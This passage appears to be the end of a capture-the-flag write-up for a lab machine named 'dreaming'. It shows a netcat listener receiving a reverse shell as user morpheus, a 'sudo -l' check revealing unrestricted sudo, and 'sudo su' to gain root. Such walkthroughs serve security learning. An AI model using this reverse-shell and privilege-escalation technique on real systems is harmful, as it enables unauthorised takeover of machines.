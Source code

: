 ```bash
s4cript> nc -lvnp $attacker_port
listening on [any] $attacker_port ...
connect to [$attacker_ip] from (UNKNOWN) [$VMip] 48754
morpheus@dreaming:~$ id
id
uid=1002(morpheus) gid=1002(morpheus) groups=1002(morpheus),1003(saviors)
```

... We've successfully obtained a shell as Morpheus. Now, let's execute 'sudo -l' to determine the user's sudo privileges:

```bash
morpheus@dreaming:~$ sudo -l
Matching Defaults entries for morpheus on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User morpheus may run the following commands on dreaming:
    (ALL) NOPASSWD: ALL
```

... With the ability to execute any command as any user, let's elevate privileges to root:

```bash
morpheus@dreaming:~$ sudo su
root@dreaming:/home/morpheus# whoami
root
root@dreaming:/home/morpheus# id
uid=0(root) gid=0(root) groups=0(root)
```

... Success! We now have a root shell.

#### Follow me on

[My Linkedin.](https://www.linkedin.com/in/fahad-khalid-al-obaidallah/)
[My Twitter.](https://twitter.com/s4cript)

see you :)